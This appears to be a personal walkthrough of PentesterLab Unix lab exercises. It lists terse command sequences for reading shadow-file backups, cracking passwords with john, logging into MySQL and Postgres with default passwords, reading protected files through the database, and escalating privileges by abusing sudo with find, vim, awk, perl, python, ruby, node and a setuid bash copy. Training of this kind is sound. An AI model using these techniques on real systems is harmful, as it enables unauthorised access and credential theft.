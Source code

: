 Unix batch:
	cd
	ls
	file [filename]
	gunzip





Unix 14:
	- cd /tmp/
	- ls -lah
	- cd /var/tmp/
	- ls
	- file backup (gzip compressed data)
	- gunzip backup (error message due to suffix)
	- ls -ltrh
	- cp backup test.gz
	- gunzip test.gz
	- ls -ltrh
	- file test
	- tar xvf test
	- cat home/victim/credentials.txt
	  (got password)
	- su victim
	- cd ~
	- ls
	- cat key.txt

Unix 15:
	- cd /etc
	- ls
	- ls -ltrh /etc/shadow*
	- cat /etc/shadow.backup
	- john john.txt
	  (got password)
	- su - victim
		pass:victim11
	- ls
	- cat key.txt

Unix 16:
	- cd /etc
	- ls -ltr
	- cat shadow.backup
	- john john.txt
	  (got password)
	- su - victim
		pass:victim1
	- ls
	- cat key.txt
	
Unix 17:
	- cat /etc/passwd
	- cd /usr/share/tomcat
	- ls
	- cat /etc/debian_version
	- cd /etc
	- cd tomcat7
	- ls -ltrh
	- cat tomcat-users.xml

Unix 18:
	- ps -edf
	- mysql -u root
	- show databases;
	- use pentesterlab
	- show tables;
	- select * from users;

Unix 19:
	- ps -edf
	- mysql -u root
	- mysql -u root -p
	  (enter pass:root)  
	- mysql -u root -p
	  (enter pass:toor)
	- Ctrl+D (Bye)
	- mysql -u root -ptoor
	- show databases;
	- use data
	- show tables;
	- select * from logins;

Unix 20:
	- su mysql
	  (pass:mysql)
	- cd /var/lib/mysql/mysql
	- ls -ltrh
	- strings user.MYD
	- john john.txt
	  (got pass)
	- mysql -u root -p
	  (pass:root3)
	-show databases;
	- use pentesterlab
	- show tables;
	- slect * from users;
	
Unix 21:
	- mysql -u root
	- select load_file('/var/lib/mysql-files/key.txt');
	
Unix 22:
	- ps -edf
	- su - postgres
	  (pass:postgres)
	- psql
	- \list
	- \c pentesterlab
	- \d
	- select * from users;

Unix 23:
	- ps -edf
	- cd /var/www
	- find
	- cat classes/db.php
	- psql photoblog -U photoblog -W
	  (pass:photoblog)
	- CREAT TABLE demo(t text);
	- COPY demo from '/var/lib/postgresql/9.4/key.txt';
	- select * from demo;
	
Unix 24:
	- cd /tmp/
	- ls
	- file database.db
	- sqlite3 database.db
	- .tables
	- select * from users;

Unix 25:
	- sudo -l
	- sudo bash
	- sudo -u victim bash
	- cd
	- ls
	- cat key.txt

Unix 26:
	- sudo -l
	- sudo -u victim find /home/victim
	- sudo -u victim find /home/victim -name key.txt
	- sudo -u victim find /home/victim -name key.txt -exec cat {} \;
	
	- sudo -u victim /home/victim -name key.txt -exec bash \;
	- cd
	- cat key.txt

Unix 27:
	- sudo -l
	- sudo -u victim vim /home/victim/key.txt

Unix 28:
	- sudo -l
	- sudo -u victim less /home/victim/key.txt

Unix 29:
	- sudo -l
	- sudo -u victim awk '{print $1}' /home/victim/key.txt

Unix 30:
	- sudo -l
	- ls -l /usr/bin/passwd
	- sudo -u victim cp /bin/bash /tmp/foo
	- cd /tmp
	- ls -ltrh
	- sudo -u victim chmod +xs foo
	- ls -ltrh
	- ./foo
	- id
	- whoami
	- exit
	- vi bar.c
	- int main(void)
{
   system("cat /home/victim/key.txt");
}
	- Esc , : , wq
	- ls -l
	- gcc -o bar bar.c
	- ./bar
	- sudo -u victim cp bar /tmp/foo
	- sudo -u victim chmod +xs foo
	- ls -ltrh
	- ./foo

Unix 31:
	- sudo -l
	- sudo -u victim perl
	- sudo -u victim perl -e 'print `cat /home/victim/key.txt`'
		
Unix 32:
	- sudo -l
	- sudo -u victim python
	- 1+1
	- import os
	- os.system('uname')
	- os.system('cat /home/victim/key.txt')

Unix 33:
	- sudo -l
	- sudo -u victim ruby -e 'puts `id`'
	- sudo -u victim ruby -e 'puts `cat /home/victim/key.txt`'
	
Unix 34:
	- sudo -l 
	- sudo -u victim node -e 'var exec = require("child_process").exec;
	- exec("cat /home/victim/key.txt", function(error, stdOut, stdErr){
	- console.log(stdOut);
	- });'